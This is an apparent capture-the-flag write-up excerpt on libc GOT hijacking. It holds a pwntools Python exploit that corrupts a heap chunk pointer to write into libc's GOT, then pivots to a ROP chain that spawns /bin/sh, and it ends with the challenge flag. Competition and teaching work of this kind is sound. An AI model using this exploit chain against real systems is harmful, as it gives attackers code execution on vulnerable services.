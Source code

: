 [https://github.com/n132/Libc-GOT-Hijacking/blob/main/README.md](https://github.com/n132/Libc-GOT-Hijacking/blob/main/README.md)

We can craft the payload that calls `system(’/bin/sh’)`

```python
got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
print(hex(got))
plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
print(hex(plt0))

edit(4, b"A" * (3 * 0x10) + p64(got - 0x8))

rop = ROP(libc)
pivot = rop.find_gadget(["pop rsp", "ret"]).address

rop.execl(next(libc.search(b"/bin/sh\\x00")), 0x0)
payload = flat(
    p64(got+8+0x38*8), # the rop chain address
    p64(pivot),
    p64(plt0) * 0x36,
    flat(rop.chain()),
    p64(got+0x3000)
)
time.sleep(1)

edit(4, payload)
r.interactive()
```

The jump to payload is automatic on basically every libc function. To actually write to GOT we overwrite the ptr to the next chunk and then access this chunk from linked list.

VBC{OneByte_isenoug_to_pwn_thing!}
